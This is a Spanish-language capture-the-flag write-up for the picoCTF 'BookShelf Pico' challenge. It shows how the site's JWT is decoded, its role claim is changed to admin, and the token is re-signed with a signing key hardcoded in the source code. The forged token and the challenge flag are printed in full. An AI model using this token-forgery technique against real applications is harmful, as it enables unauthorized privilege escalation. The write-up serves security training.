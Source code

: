 ## Descripción
BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!

Here are the credentials to get you started:

- Username: "user"
- Password: "user"

Source code can be downloaded [here](https://artifacts.picoctf.net/c/481/bookshelf-pico.zip).Website can be accessed [here!](http://saturn.picoctf.net:59572/).

## Pistas
1. Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?
2. The 'role' and 'userId' fields in the JWT can be of interest to you!
3. The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.
4. Upgrade your 'role' with the _new_ (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.
## Solución 1
1. Al logearnos en la pagina vemos que en la pestaña local storage hay un token
2. Decodificamos el token con [jwt.io]()
```
Input:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc0NTQ3MTkwMSwiaWF0IjoxNzQ0ODY3MTAxLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.OAqiSnzh73Ws1Vd-wJKGQ6kmeA-fMvmKEmArr2Oxfhk

Output:
{
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1745471901,
  "iat": 1744867101,
  "userId": 1,
  "email": "user"
}

```
3. Cambiamos los valores role, userId y email
```
{
  "role": "admin",
  "iss": "bookshelf",
  "exp": 1745471901,
  "iat": 1744867101,
  "userId": 2,
  "email": "admin"
}
```
4. Buscamos la clave en el código, en este caso se encontraba en `SecretGenerator.java` 
5. Sustituimos por la clave generada
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiYWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NDU0NzE5MDEsImlhdCI6MTc0NDg2NzEwMSwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.WqOVfCDR93w_mZf0lzGDetj49CAI7-eB7fdYUz2Ew7U
```
6. Recargamos la pagina y obtenemos la bandera
`picoCTF{w34k_jwt_n0t_g00d_ca4d9701}`
## Referencias

